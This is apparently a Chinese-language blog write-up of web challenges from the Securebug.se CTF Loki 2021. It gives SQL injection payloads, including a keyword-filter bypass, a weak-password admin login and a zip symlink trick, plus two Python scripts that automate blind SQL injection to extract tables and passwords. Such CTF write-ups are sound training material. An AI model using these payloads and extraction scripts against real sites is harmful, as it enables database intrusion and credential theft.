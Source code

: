 ```yaml
---
title: Securebug.se CTF Loki 2021
date: 2021-07-22 20:56:44
updated: 2021-07-22 20:56:44
categories: Write up
---
```


Securebug.se CTF Loki 2021 —web WriteUp

题目比较简单

<!--more-->

## **Simple Login**

查看源码

<img src="http://img.npfs06.top/20210722164243.png?imageView2/0/q/75|watermark/2/text/bnBmczA2LnRvcA==/font/5b6u6L2v6ZuF6buR/fontsize/340/fill/IzAwMDAwMA==/dissolve/62/gravity/SouthEast/dx/10/dy/10" style="zoom:70%;" />



## **Doodle Search**

查看源码发现注释 
```
<!-- <a href="?source">sauce</a> -->
```
访问:  https://ch1.sbug.se/?source

```php
 <?php
    if (isset($_GET['q'])) {
        
        $query = "SELECT * FROM websites WHERE title LIKE '%" . $_GET['q'].  "%' OR description LIKE '%" . $_GET['q'] .  "%' OR link LIKE '%" . $_GET['q'] . "%';";
        $result = $conn->query($query);

        echo  "<h2>search '". htmlspecialchars($_GET['q']) . "' : results " . $result->num_rows . "</h2>";
    ?>
    <?php
        if (isset($result) && $result->num_rows > 0) {
            echo "<hr/>";
            echo "<br/>";

            // output data of each row
            while($row = $result->fetch_assoc()) {
                echo "<div>";
                echo "<a href='" . $row['link'] . "'><h2>" . htmlspecialchars($row['title']) . "</h2></a>";
                echo "<p>" . htmlspecialchars($row['link']) . "</p>";
                echo "<h5 style='color: #777;'>" . htmlspecialchars($row['description']) . "</h5></div>";
                echo "<hr/>";
            }
        }
    ?>
```

payload:

> ' union select 1,2,password from secrets#

<img src="http://img.npfs06.top/20210722163338.png?imageView2/0/q/75|watermark/2/text/bnBmczA2LnRvcA==/font/5b6u6L2v6ZuF6buR/fontsize/340/fill/IzAwMDAwMA==/dissolve/62/gravity/SouthEast/dx/10/dy/10" style="zoom:70%;" />





## Yummy Cookie

页面提示

> Who let the robots out?

访问： https://ch27.sbug.se/robots.txt

得到提示

```
User-agent: *
Disallow: 007469e470d.php
```

访问： https://ch27.sbug.se/007469e470d.php

根据提示修改http头即可

<img src="http://img.npfs06.top/20210722164822.png?imageView2/0/q/75|watermark/2/text/bnBmczA2LnRvcA==/font/5b6u6L2v6ZuF6buR/fontsize/340/fill/IzAwMDAwMA==/dissolve/62/gravity/SouthEast/dx/10/dy/10" style="zoom:70%;" />



##  Inception

查看源码发现注释

```
<!-- /?src -->
```



访问： https://ch24.sbug.se/?src

得到提示

> preg_replace("/select|union|from|where/i", "", @$_GET["fname"]);

双写绕过即可

```
1' uniounionn selecselectt  group_concat(table_name),2,3 frofromm information_schema.tables whwhereere table_schema=database()#
```

<img src="http://img.npfs06.top/20210722165827.png?imageView2/0/q/75|watermark/2/text/bnBmczA2LnRvcA==/font/5b6u6L2v6ZuF6buR/fontsize/340/fill/IzAwMDAwMA==/dissolve/62/gravity/SouthEast/dx/10/dy/10" style="zoom:70%;" />



```
1' uniounionn selecselectt  group_concat(column_name),2,3 frofromm information_schema.columns whwhereere table_name="inception_users"#
```

<img src="http://img.npfs06.top/20210722170006.png?imageView2/0/q/75|watermark/2/text/bnBmczA2LnRvcA==/font/5b6u6L2v6ZuF6buR/fontsize/340/fill/IzAwMDAwMA==/dissolve/62/gravity/SouthEast/dx/10/dy/10" style="zoom:70%;" />



```
1' ununionion selselectect group_concat(passwd),2,3 frfromom inception_users#
```

<img src="http://img.npfs06.top/20210722170252.png?imageView2/0/q/75|watermark/2/text/bnBmczA2LnRvcA==/font/5b6u6L2v6ZuF6buR/fontsize/340/fill/IzAwMDAwMA==/dissolve/62/gravity/SouthEast/dx/10/dy/10" style="zoom:70%;" />



##  Unzipper

目录扫描，存在后台地址： https://ch26.sbug.se/admin.php

弱密码  admin/admin  登入

根据提示，需要上传zip文件，想到软连接。[SWPU2019]Web3中有过类似的考点

不过这里的flag路径要写 `/flag`，不是`/etc/flag`s



<img src="http://img.npfs06.top/20210722191145.png?imageView2/0/q/75|watermark/2/text/bnBmczA2LnRvcA==/font/5b6u6L2v6ZuF6buR/fontsize/340/fill/IzAwMDAwMA==/dissolve/62/gravity/SouthEast/dx/10/dy/10" style="zoom:70%;" />



<img src="http://img.npfs06.top/20210722191116.png?imageView2/0/q/75|watermark/2/text/bnBmczA2LnRvcA==/font/5b6u6L2v6ZuF6buR/fontsize/340/fill/IzAwMDAwMA==/dissolve/62/gravity/SouthEast/dx/10/dy/10" style="zoom:70%;" />



## Ninja Blog



```python
import string
import requests

url = 'https://ch2.sbug.se/login.php'
s = string.digits + string.ascii_letters + string.punctuation
print(s)
payload = {
    'username' : '',
    'password' : 1
}
result = ''

username_template = "'admin'or/**/ascii(substr((select/**/group_concat(table_name)from/**/information_schema.tables/**/where/**/table_schema=database()),{0},1))={1}#"
#username_template = "admin'or/**/ascii(substr((select group_concat(column_name) from information_schema.columns where table_name='blog_v2'),{0},1))={1}#"
#username_template = "admin'or/**/ascii(substr((select username from  blog_v2 limit 2,1),{0},1))={1}#"
            
st = 0
for i in range(1,50):
    st = 0
    for c in s :
        asc = ord(c)
        payload['username'] = username_template.format(i,asc)
        response = requests.post(url, data=payload)
        print(response)
        if "You are in, but your role is not admin" in response.text: 
            result += c
            print('tables: ', result)
            st = 1
    if st == 0:
        break
print('tables: ', result)

##jony
```

<img src="http://img.npfs06.top/20210722203158.png?imageView2/0/q/75|watermark/2/text/bnBmczA2LnRvcA==/font/5b6u6L2v6ZuF6buR/fontsize/340/fill/IzAwMDAwMA==/dissolve/62/gravity/SouthEast/dx/10/dy/10" style="zoom:70%;" />

<img src="http://img.npfs06.top/20210722203214.png?imageView2/0/q/75|watermark/2/text/bnBmczA2LnRvcA==/font/5b6u6L2v6ZuF6buR/fontsize/340/fill/IzAwMDAwMA==/dissolve/62/gravity/SouthEast/dx/10/dy/10" style="zoom:70%;" />



## blacklist



```python
import requests
url = "https://ch23.sbug.se/?fname="
temp = {}
a = ""
for i in range(1,1000):
    low = 32
    high =128
    mid = (low+high)//2
    while (low<high):
        #payload = "admin'%26%26({}<ascii(substr((select(database())),{},1)))%23".format(mid, i)     		  
        #payload="admin'%26%26if((ascii(substr((select(concat(table_name))from(information_schema.tables)where(table_schema='test')),{},1))>{}),1,0)%23".format(i, mid)
        #payload = "admin'%26%26if((ascii(substr((select(group_concat(column_name))from(information_schema.columns)where(table_schema='test')and(table_name='blacklist_users')),{},1))>{}),1,0)%23".format(i, mid)
        payload = "admin'%26%26if((ascii(substr((select(group_concat(flag))from(blacklist_users)),{},1))>{}),1,0)%23".format(i, mid)
        temp = {"id":payload}
        r = requests.get(url + payload)
        if "youtube" in r.text:
            low = mid+1
        else:
            high = mid
        mid =(low+high)//2
    if(mid ==32 or mid ==127):
        break
    a +=chr(mid)
    print(a)
print("password=",a)

```


